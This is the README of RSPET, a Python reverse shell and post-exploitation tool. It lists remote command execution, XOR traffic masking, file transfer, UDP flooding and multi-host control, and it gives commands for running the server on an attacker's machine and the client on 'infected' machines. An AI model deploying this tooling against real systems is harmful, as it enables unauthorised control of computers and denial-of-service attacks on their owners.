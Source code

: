# RSPET
> RSPET (Reverse Shell and Post Exploitation Tool) is a Python based reverse shell equipped with functionalities that assist in a post exploitation scenario.

DISCLAIMER: This software is provided for educational purposes and as a proof of concept. The developer(s) do not endorse, incite or in any other way support unauthorised computer access and networks disruption.

NOTE : As of v0.0.3 folder `min` has been added. Since the new version has many more features not essential to the main functionality (a reverse shell that is), min will not recieve any more features beyond v0.0.3 and will only get bug and performance related fixes.

## Features

* Remote Command Execution
* Trafic masking (XORed insted of cleartext); for better results use port 443[1]
* Built-in File/Binary transfer (both ways) over the masked trafic
* Built-in UDP Flooding tool
* Multiple/All Hosts management; order File/Binary transfer and UDP Flood from Multiple/All connected Hosts
* Client script is tested and is compatible with PyInstaller (can be made into .exe)[2]

*[1]The idea for XORing as well as the skeleton for the client came from [primalsecurity.net](http://www.primalsecurity.net) so if you like this pack of scripts you'll probably love what they do

*[2]Again check [primalsecurity.net's](http://www.primalsecurity.net) perfect blogpost about producing an .exe

## Deployment:

* `RSPET_server.py` or `RSPET_server_min.py` is situated at the attacker's machine and running to accept connections
* `RSPET_client.py` or `RSPET_client_min.py` is situated in the infected machine(s) and will initiate the connection and wait for input. 

## Execution:

* Server:
```sh
python RSPET_server.py (max_connections) 
```
max_connections defaults to 5 if left blank

* Client: 
```sh
python RSPET_client.py server_ip
```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## Todo

* Fix logic bug where if a dirrect command to Host OS has no output Server displays command not recognised
* Fix logic bug where if a dirrect command's to Host OS execution is perpetual the Server deadlocks

## License

MIT
